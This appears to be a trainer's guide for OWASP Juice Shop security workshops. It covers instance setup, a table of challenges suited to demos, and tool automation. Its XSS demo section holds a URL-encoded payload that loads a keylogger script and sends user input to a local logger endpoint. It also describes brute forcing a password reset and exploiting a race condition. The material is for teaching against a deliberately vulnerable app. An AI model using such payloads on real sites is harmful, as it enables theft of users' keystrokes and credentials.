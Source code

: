 = Trainer's guide

Co-authored by https://github.com/wurstbrot[Timo Pagel]

== Instances

Make sure all participants have their own running Juice Shop instance to
work with. While attempting challenges like
xref:../part2/insecure-deserialization.adoc[RCE] or xref:../part2/xxe.adoc[XXE]
students might occasionally take down their server and would severely
impact other participants if they shared an instance.

There are multiple xref:../part1/running.adoc#_run_options[Run Options] which
you can choose from. It is perfectly fine to run multiple docker
containers on one host. They do not effect each other.

== Customization

Especially in awareness trainings for management you might want to
create a higher immersion by making the Juice Shop look like an
application in the corporate design of the participants' own company.
Juice Shop offers
xref:../part1/customization.adoc[various customization options] to achieve
this.

Several custom configurations already come packaged with the Juice Shop
source code, the two most sophisticated ones being
https://github.com/juice-shop/juice-shop/blob/master/config/7ms.yml[7 Minute Security]
and
https://github.com/juice-shop/juice-shop/blob/master/config/mozilla.yml[Mozilla].

In addition, you might want to disable all challenge notifications
during awareness trainings to avoid distraction. The
https://github.com/juice-shop/juice-shop/blob/master/config/quiet.yml[Quiet]
configuration demonstrates the necessary options to achieve this.

image::appendix/quiet_mode.png[Quiet mode]

For a really sophisticated and immersive demo consider performing some
xref:../part1/customization.adoc#_additional_browser_tweaks[Additional Browser tweaks].
These will let you use OAuth2 login via Google and cast the illusion
that coupon codes were actually tweeted by your customer's company.

== Classroom hints

In a class room setup you have to find a way to distribute the URL of
each instance to the participants. For small groups, it is probably fine
to just spin up a number of containers and tell all participants which
URL they have to use. An example to spin up 10 Docker containers on a
UNIX based system is to run

----
for i in {10..19}; do docker run -d -p 40$i:3000 bkimminich/juice-shop; done
----

If you want to track progress centrally during the training, you might
want to xref:../part1/ctf.adoc[host a central CTF server] where participants
can post the challenges they already solved. You might consider turning
off public visibility of the leader board on the CTF server unless you
want to encourage the students to hack very competitively.

=== Hosting individual instances for multiple users

image::appendix/multi-juicer_cover.svg[MultiJuicer cover]

A solution to host and manage individual Juice Shop instances for
multiple users is
https://github.com/iteratec/multi-juicer/[MultiJuicer]. MultiJuicer is
a Kubernetes based system to start up the required Juice Shop instances
on demand. It will also clean up unused instances after a configured
period of inactivity.

MultiJuicer comes with a custom-built load balancer. It allows every
participant (or a CTF team) to use the same URL, but their traffic will
always be sent to their own personal instance.

image::appendix/multi-juicer_high-level-architecture.svg[MultiJuicer high level architecture]

Registration at MultiJuicer is very straightforward for the users/teams.
Messing with other instances is prevented by assigning a passcode to
each of them which should only be shared among team members - or not at
all for individuals.

image::appendix/multi-juicer_register.png[MultiJuicer registration]

MultiJuicer comes with a rudimentary Score Board of its own, which allows teams to compare their progress through
the Juice Shop challenges.

image::appendix/multi-juicer_scoreboard.png[MultiJuicer score board]

Another helpful feature for the trainer MultiJuicer is the https://github.com/iteratec/multi-juicer/blob/master/guides/monitoring-setup/monitoring.adoc[optional
dashboard which automatically consumes and displays metrics] from each of
its Juice Shop instances. It shows individual challenge progress along with other
functional and technical stats and can be very helpful in
troubleshooting as well.

image:appendix/multi-juicer_dashboard.png[MultiJuicer dashboard with technical metrics]
image:appendix/multi-juicer_dashboard1.png[MultiJuicer dashboard with business metrics]

The MultiJuicer repository offers guidance on https://github.com/iteratec/multi-juicer#installation-guides-for-specific-cloud-providers[how to set up the
system on different cloud provider platforms],
such as Digital Ocean, OpenShift, AWS or Azure.

== Existing trainings

One existing training which uses the Juice Shop for example is
https://drive.google.com/open?id=1ITkTAALjZJnGV-hhAZ-zQfNx1sVTzlA2UlWD0s270ig[Timo Pagel's University Module].
The structure mostly is as follows:

. Introduce a topic (e.g. SQL Injection)
. Let the participants try it out in the Juice Shop
. Show mitigation/counter measures

The 2nd semester web attack chapters of
https://github.com/bkimminich/it-security-lecture[Björn Kimminich's IT Security Lecture]
follow a similar pattern of

. Introduction
. Timeboxed exercise
. Demonstration of the hack (for all who did not finish the exercise in
time)
. Explaining mitigation and prevention

You can find more links to existing material in the
https://github.com/juice-shop/juice-shop/blob/master/REFERENCES.adoc#lectures-and-trainings[Lectures and Trainings section]
of the project references on on GitHub.

== Challenges for demos

The following challenges are well suited for live demonstrations in
trainings or talks. You should *always* begin by showing how to find
the
xref:../part2/score-board.adoc#_find_the_carefully_hidden_score_board_page[Score Board]
( ⭐ ) so you can then pick any of the challenge below to further
demonstrate certain categories of vulnerabilities.

|===
| Challenge | Category | Difficulty | Time for demo | Dependencies

| xref:../part2/xss.adoc#_perform_a_dom_xss_attack[DOM XSS]
| XSS
| ⭐
| ⏳
| None

| xref:../part2/sensitive-data-exposure.adoc#_access_a_confidential_document[Confidential Document]
| Sensitive Data Exposure
| ⭐
| ⏳
| None

| xref:../part2/injection.adoc#_log_in_with_the_administrators_user_account[Login Admin]
| Injection
| ⭐⭐
| ⏳
| None

| xref:../part2/miscellaneous.adoc#_read_our_privacy_policy[Privacy Policy]
| Miscellaneous
| ⭐
| ⏳
| Log in as any user

| xref:../part2/xss.adoc#_perform_a_reflected_xss_attack[Reflected XSS]
| XSS
| ⭐⭐
| ⏳⏳
| Log in as any user and complete checkout process (to find the vulnerable tracking link)

| xref:../part2/security-through-obscurity.adoc#_prove_that_you_actually_read_our_privacy_policy[Privacy Policy Inspection]
| Security through Obscurity
| ⭐⭐⭐
| ⏳⏳
| xref:../part2/miscellaneous.adoc#_read_our_privacy_policy[Privacy Policy]

| xref:../part2/broken-access-control.adoc#_access_the_administration_section_of_the_store[Admin Section]
| Broken Access Control
| ⭐⭐
| ⏳⏳
| xref:../part2/injection.adoc#_log_in_with_the_administrators_user_account[Login Admin] or xref:../part2/improper-input-validation.adoc#_register_as_a_user_with_administrator_privileges[Admin Registration]

| xref:../part2/broken-access-control.adoc#_view_another_users_shopping_basket[View Basket]
| Broken Access Control
| ⭐⭐
| ⏳⏳
| Log in with two different users

| xref:../part2/broken-access-control.adoc#_find_the_hidden_easter_egg[Easter Egg]
| Broken Access Control
| ⭐⭐⭐⭐
| ⏳⏳⏳
| Explain _Poison Null Byte_

| xref:../part2/cryptographic-issues.adoc#_apply_some_advanced_cryptanalysis_to_find_the_real_easter_egg[Nested Easter Egg]
| Cryptographic Issues
| ⭐⭐⭐⭐
| ⏳⏳⏳
| xref:../part2/broken-access-control.adoc#_find_the_hidden_easter_egg[Easter Egg]

| xref:../part2/sensitive-data-exposure.adoc#_access_a_developers_forgotten_backup_file[Forgotten Developer Backup]
| Sensitive Data Exposure
| ⭐⭐⭐⭐
| ⏳⏳⏳
| Explain _Poison Null Byte_

| xref:../part2/cryptographic-issues.adoc#_forge_a_coupon_code_that_gives_you_a_discount_of_at_least_80[Forged Coupon]
| Cryptographic Issues
| ⭐⭐⭐⭐⭐⭐
| ⏳⏳⏳⏳
| xref:../part2/sensitive-data-exposure.adoc#_access_a_developers_forgotten_backup_file[Forgotten Developer Backup] and `z85-cli` installed *or* xref:../part2/sensitive-data-exposure.adoc#_access_a_salesmans_forgotten_backup_file[Forgotten Sales Backup] *or* tracing coupons from Twitter back to https://github.com/juice-shop/juicy-coupon-bot/actions?query=workflow%3A%22Monthly+Coupon+Distribution%22
|===

=== XSS demo

A particularly impressive
https://github.com/wurstbrot/shake-logger[showcase of XSS site-defacement combined with a keylogger]
is provided explicitly for live demos and awareness trainings:

. Install https://www.docker.com/[Docker].
. Run `+git clone https://github.com/wurstbrot/shake-logger+`.
. Run `cd shake-logger` and then `docker-compose up`.
. Turn on your speakers and make sure your browser is allowed to play
sound.
. Open
http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp[this link]
to launch the XSS demo (🔊).
. Use the application normally, e.g. doing a search and logging in with
some user.
. In a new tab go to http://localhost:8080/logger.php to see that all
user input was transmitted to a third-party server.
. Show the Network tab of the browser window with Juice Shop to see the
requests that are sent to the `logger.php` script.
. Reload the Juice Shop with `F5` and use the application a bit more.
. You will see that no more logging takes place as XSS payload was
removed during the reload.

There is also a video recording available on YouTube:
https://youtu.be/Msi52Kicb-w. This is a good fallback in case the
Docker-based setup does not work for you.

== Teaching automation of security tools

Only a few challenges in OWASP Juice Shop are _explicitly_ expecting to
utilize the power of automation, mostly in the form of some brute force
attack. Quite a few more challenges are still _well-suited_ for teaching
the use of automated tools . The following table gives you an idea on
complexity and expected time consumption for each of these, so you can
plan your training accordingly.

|===
| Tool | Description | Effort to automate | Execution runtime | Challenges (Auto-solve?)

| OWASP ZAP _Traditional Spider_ or  _Forced Browse_ with https://raw.githubusercontent.com/daviddias/node-dirbuster/master/lists/directory-list-lowercase-2.3-small.txt[small (or bigger) OWASP DirBuster list]
| Finds `/ftp` folder with many misplaced files _and_ `/promotion` (and direct `/video`) path with jingle video
| 🧠
| ⏳⏳
| Confidential Document(❌), Forgotten Developer Backup(❌), Forgotten Sales Backup(❌), Misplaced Signature File(❌), Login Support Team(❌), Video XSS(❌)

| OWASP ZAP _Forced Browse_ with https://raw.githubusercontent.com/daviddias/node-dirbuster/master/lists/directory-list-lowercase-2.3-big.txt[big OWASP DirBuster list]
| Finds `/encryptionkeys` directory with `jwt.pub` _and_ `premium.key` key files
| 🧠
| ⏳⏳⏳
| Forged Signed JWT(❌), Premium Challenge(❌)

| https://github.com/aaronhnatiw/race-the-web[RaceTheWeb] config (or custom Bash, Python etc. script) sending 10 sequential `POST` requests to http://localhost:3000/api/Feedbacks[Feedback API endpoint] within 10 seconds
| Must pin `captchaId` and `captcha` from one initially received and solved CAPTCHA
| 🧠(🧠)
| ⏳
| CAPTCHA Bypass(✔️)

| Burpsuite (Community Edition) _Repeater_ with https://www.ssa.gov/oact/babynames/decades/century.html[Top Names Over the Last 100 Years] into http://localhost:3000/rest/user/reset-password[Password Reset API endpoint] for email `jim@juice-sh.op`
| Contains answer to Jim's security question as 44th of Top 100 male names of 1919-2018. List needs to be manually prepared from HTML page.
| 🧠🧠
| ⏳⏳
| Reset Jim's Password(✔️)

| https://github.com/aaronhnatiw/race-the-web[RaceTheWeb] config (or custom Bash, Python etc. script) sending 3 simultaneous `POST` requests to http://localhost:3000/rest/products/reviews[Like Reviews API endpoint]
| Requests must be processed within 150ms time window to exploit race condition flaw
| 🧠(🧠🧠)
| ⏳
| Multiple Likes(✔️)
|===
